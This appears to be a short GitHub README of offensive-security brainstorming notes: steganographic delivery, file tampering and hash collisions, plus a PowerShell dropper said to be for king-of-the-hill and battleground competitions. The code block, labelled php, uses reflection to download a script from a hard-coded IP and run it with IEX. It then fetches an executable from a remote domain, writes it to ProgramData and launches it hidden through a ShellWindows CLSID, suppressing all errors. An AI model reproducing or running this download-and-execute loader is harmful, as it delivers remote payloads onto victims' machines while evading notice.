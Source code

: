 # Squid-Games-PreBR


This is just were I ideas for BR

I really like the idea of stenography as a delivery mechanism as the VBA extracting and saving the image is similar to how a browser would save images in a cache 

Embedded RSA keys 

RDP certificates 

Hash collisioning files to make files has been a long term goal for over 6 years

- (This is big question I want to answer) how to:
	- Prevent file tampering
	- Tamper files
	- detect file tampering


Bad php for my KOTH and Battleground Arsenal, but better; is there a linux varation I could try instead of CLSIDs in how anything on Linux gets executed?
```php
$instance = [System.Activator]::CreateInstance("System.Net.WebClient");
$method = [System.Net.WebClient].GetMethods();
foreach($m in $method){

  if($m.Name -eq "DownloadString"){
    try{
     $uri = New-Object System.Uri("http://176.32.35.16/704e.php")
     IEX($m.Invoke($instance, ($uri)));
    }catch{}

  }

  if($m.Name -eq "DownloadData"){
     try{
     $uri = New-Object System.Uri("http://fpetraardella.band/xap_102b-AZ1/704e.php?l=litten4.gas")
     $response = $m.Invoke($instance, ($uri));

     $path = [System.Environment]::GetFolderPath("CommonApplicationData") + "\\QdZGP.exe";
     [System.IO.File]::WriteAllBytes($path, $response);

     $clsid = New-Object Guid 'C08AFD90-F2A1-11D1-8455-00A0C91F3880'
     $type = [Type]::GetTypeFromCLSID($clsid)
     $object = [Activator]::CreateInstance($type)
     $object.Document.Application.ShellExecute($path,$nul, $nul, $nul,0)

     }catch{}
     
  }
}

Exit;
```